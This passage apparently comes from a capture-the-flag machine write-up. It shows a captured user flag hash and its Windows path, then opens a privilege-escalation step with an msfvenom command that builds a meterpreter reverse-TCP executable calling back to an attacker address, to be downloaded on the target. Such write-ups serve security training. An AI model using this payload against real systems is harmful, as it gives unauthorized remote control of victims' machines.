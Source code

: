 ![img_8.png](img/img_8.png)

- User flag can be found at `c:\Users\svc_exampanel\Desktop\user.txt`: 

```
dc54338deda488372aa908b40ac97d15
```

## 3. Privilege Escalation

- To download and upload files to the target server with ease, let's create a reverse shell connection using `metasploit`:

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.112 LPORT=4242 -f exe > shell.exe
```

- This will generate the reverse shell as `shell.exe`. Now we can host the file and download it from the target machine in the netcat session we obtained earlier:

![img_9.png](img/img_9.png)

